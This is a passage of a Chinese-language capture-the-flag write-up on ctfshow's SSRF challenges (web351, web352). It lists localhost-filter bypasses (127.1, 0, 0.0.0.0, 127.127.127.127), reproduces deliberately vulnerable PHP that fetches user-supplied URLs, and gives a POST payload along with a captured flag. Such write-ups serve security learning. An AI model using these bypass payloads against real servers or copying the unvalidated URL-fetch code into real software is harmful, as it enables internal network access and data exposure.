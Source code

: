 ## ctfshow----ssrf

[TOC]

### 尝试



**缺省模式：**127.0.0.1写成127.1
CIDR：url=http://127.127.127.127/flag.php
url=http://0/flag.php

> *0在linux系统中会解析成127.0.0.1在windows中解析成0.0.0.0*

url=http://0.0.0.0/flag.php

> 在IP地址中，`127.0.0.1`通常表示本地回环地址，即“localhost”。在某些情况下，尤其是在简化输入时，`127.0.0.1`可以被缩写为`127.1`，这是因为在IP地址解析时，缺少的部分会自动填充为0。
>
> **关于CIDR和URL:**
>
> - `url=http://127.127.127.127/flag.php`：这是一个普通的IPv4地址，没有特别的CIDR表示法。
> - `url=http://0/flag.php` 和 `url=http://0.0.0.0/flag.php`：`0.0.0.0` 通常表示一个非特定的地址，或表示所有的网络接口。在URL中使用 `0` 是一种极端简写，类似于 `http://127.0.0.0/flag.php`，但在很多情况下，`0.0.0.0`不会被用于实际的HTTP请求，因为它没有明确的目标主机。



### web351

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($phpurl);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

没有过滤，Payload：Post传参

```
url=127.0.0.1/flag.php

ctfshow{7139477e-1393-443c-b7aa-2f972c33d856}
```



### web352

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
```
